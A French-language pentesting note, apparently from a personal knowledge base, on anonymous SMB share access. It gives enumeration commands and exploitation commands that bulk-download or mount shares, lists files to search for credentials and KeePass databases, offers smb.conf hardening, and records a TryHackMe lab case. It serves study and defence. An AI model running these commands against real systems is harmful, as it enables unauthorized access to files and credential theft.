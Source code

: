 ```yaml
---
tags:
  - vuln/network
cvss: 5.3
category:
  - Information Disclosure
  - Misconfiguration
related_cves: []
creation_date: 2025-10-27
---
```

# SMB Anonymous Access

## 📋 Description
> Configuration incorrecte de Samba/SMB permettant l'accès à des partages réseau sans authentification. Permet souvent de récupérer des informations sensibles (credentials, listes d'utilisateurs, fichiers de configuration).

---

## 🎯 Impact & Gravité

**CVSS Score :** 5.3 (Medium)
**Niveau de risque :** [X] Moyen [ ] Critique [ ] Élevé [ ] Faible

**Impacts :**
- Fuite d'informations sensibles (credentials, configs)
- Énumération d'utilisateurs
- Découverte de l'architecture réseau
- Possible pivot vers d'autres attaques (bruteforce, exploitation)

---

## 🔍 Détection

**Indicateurs :**
```bash
# Énumération avec enum4linux
enum4linux -a <IP>

# Liste des partages
smbclient -L //<IP> -N

# Nmap NSE scripts
nmap --script smb-enum-shares,smb-enum-users -p 445 <IP>

# CrackMapExec
crackmapexec smb <IP> --shares -u '' -p ''
```

**Outils de scan :**
- enum4linux
- smbclient
- smbmap
- CrackMapExec
- Nmap (scripts NSE)

---

## 💥 Exploitation

**Prérequis :**
- Port 139/445 ouvert
- Configuration SMB permettant l'accès anonyme

**PoC / Commandes :**
```bash
# Connexion anonyme à un partage
smbclient //<IP>/share_name -N

# Télécharger tous les fichiers
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *

# Avec smbmap
smbmap -H <IP> -u anonymous
smbmap -H <IP> -u anonymous -r share_name

# Monter le partage
mount -t cifs //<IP>/share_name /mnt/smb -o username=,password=
```

**Fichiers intéressants à chercher :**
- `*.txt` - Notes, credentials
- `*.xml`, `*.conf`, `*.config` - Fichiers de configuration
- `*.ps1`, `*.bat`, `*.sh` - Scripts (peuvent contenir des creds)
- `*.kdbx` - Bases de mots de passe KeePass

---

## 🛡️ Mitigation & Patch

**Solutions :**
1. Désactiver l'accès guest/anonymous dans `smb.conf`
2. Configurer `map to guest = Never`
3. Forcer l'authentification sur tous les partages
4. Utiliser SMBv3 avec chiffrement

**Configuration sécurisée (smb.conf) :**
```ini
[global]
map to guest = Never
restrict anonymous = 2
guest ok = no
```

**Workarounds :**
- Limiter l'accès SMB par firewall
- Segmenter le réseau
- Monitoring des connexions anonymes

---

## 🔗 Références

- CVE : N/A (Misconfiguration)
- OWASP : A05:2021 – Security Misconfiguration
- Documentation : https://www.samba.org/samba/docs/

---

## 📝 Notes de Terrain

**Rencontré dans :** [[THM - Basic Pentesting]]
**Date :** 2025-10-27
**Contexte :** 
- Partage "Anonymous" accessible sans auth
- Fichier `staff.txt` contenait liste d'utilisateurs
- A permis bruteforce SSH ensuite
